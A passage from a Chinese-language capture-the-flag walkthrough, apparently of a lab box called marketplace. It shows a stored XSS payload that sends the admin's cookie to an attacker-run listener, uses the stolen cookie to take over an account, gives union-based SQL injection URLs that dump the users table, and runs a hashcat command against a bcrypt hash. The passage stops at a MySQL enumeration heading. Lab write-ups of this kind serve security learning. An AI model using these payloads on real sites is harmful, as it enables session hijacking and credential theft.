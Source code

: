 我们新建页面：

    http://10.10.215.254/new

在title和desc写入以下js代码：

    <script>fetch('http://10.14.39.48:8000/?cookie=' + btoa(document.cookie));</script>

然后添加，打开页面查看源代码，我们发现js代码已经被正常解析

使用python开启http服务：

    python3 -m http.server

然后在点击向管理员举报该页面

我们将收到管理员的cookie：

    10.10.215.254 - - [15/Jan/2023 11:51:19] "GET /?cookie=dG9rZW49ZXlK***************w5NHBEYkpJ HTTP/1.1" 200 -

将其base64解码后，使用火狐浏览器的插件 Cookie-Editor将cookie添加进去

我们使用该cookie成功登录进michael的账号

## SQL injection

进入管理页面，列出了几个用户，点击查看这些用户信息，发现url存在sqli

    http://10.10.215.254/admin?user=1 and sleEp(3);

    http://10.10.215.254/admin?user=-1 union select database(),2,3,4

    http://10.10.215.254/admin?user=-1 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema='marketplace'

    http://10.10.215.254/admin?user=-1 union select group_concat(column_name),2,3,4 from information_schema.columns where table_name='users'

    http://10.10.215.254/admin?user=-1 union select group_concat(username,password),2,3,4 from users

常规操作

## 密码爆破

我们得到了几个账号的密码hash

分析题目开头那句话，我们锁定michael，爆破它的密码hash

hashcat:

    ┌──(root🐦kali)-[/home/sugobet]
    └─# hashcat -a 0 -m 3200 '$2b$10$yaYKN53***********vu2EXwQDGf/1q' /usr/share/wordlists/rockyou.txt

真倒霉，又没爆出来

## mysql枚举

但是我在数据库另一个表中发现了明文密码：
